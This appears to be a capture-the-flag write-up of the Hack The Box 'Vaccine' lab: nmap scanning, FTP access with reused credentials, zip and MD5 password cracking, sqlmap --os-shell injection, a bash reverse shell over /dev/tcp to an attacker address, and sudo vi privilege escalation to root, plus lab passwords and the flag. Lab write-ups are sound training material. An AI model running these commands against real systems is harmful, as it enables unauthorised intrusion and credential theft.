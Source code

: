 ## ------------------->> Vaccine <<-------------------

// We will start with scanning using nmap

    $ nmap -sV -A -Pn 10.10.10.46 -p-
    Nmap scan report for 10.10.10.46
    Host is up (0.23s latency).
    Not shown: 65532 closed ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
    |   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
    |_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: MegaCorp Login
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
// we got 3 services running (FTP,SSH,HTTP). since we got credentials from last box(Oopsie), we can try to connect to FTP 

    ftp -p 10.10.10.46 
    ftpuser : mc@F1l3ZilL4
// we locate file called backup.zip in the ftp shared directory, lets grab him

    ftp> ls
    227 Entering Passive Mode (10,10,10,46,39,53).
    150 Here comes the directory listing.
    -rw-r--r--    1 0        0            2533 Feb 03  2020 backup.zip
    226 Directory send OK.

    ftp> get backup.zip
// its seems that file have password, lets crack the password using john

    $ zip2john backup.zip > hash
    $ john hash --fork=4 -w=/wordlist.txt
    backup.zip password : 741852963

// we got file called index.php

	index.php -> login admin password_md5 : "2cb42f8734ea607eefed3b70af13bbd3"
// decode the hash using online md5 decoder https://www.md5online.org/

"2cb42f8734ea607eefed3b70af13bbd3" -> qwerty789

![Image 1](https://github.com/W0lfySec/HTB/blob/main/Images/Vaccine/Screenshot_2021-07-31_13_41_32.png)

sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' 
	--cookie="PHPSESSID=ikk1tjpq926a0dkboj4hu8r36o" --os-shell

sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=eig0j4h3v77v8prj79sug2hu50" --os-shell

// upgrade connection with nc listiner on port 1234
bash -c 'bash -i >& /dev/tcp/10.10.16.66/1234 0>&1'

// upgrade nc shell
SHELL=/bin/bash script -q /dev/null


postgres@vaccine:/var/www/html$ cat dashboard.php

try {
  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
}


-------------------1 way--------------
postgres@vaccine:$ python3 -c "import pty;pty.spawn('/bin/bash')"
P@s5w0rd!
------------------2 way ---------------
ssh open so....
ssh postgres@10.10.10.46
P@s5w0rd!


// add root privilleged configuration file
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
// add
:!/bin/bash


root@vaccine:~# cat root.txt
dd6e058e814260bc70e9bbdef2715849
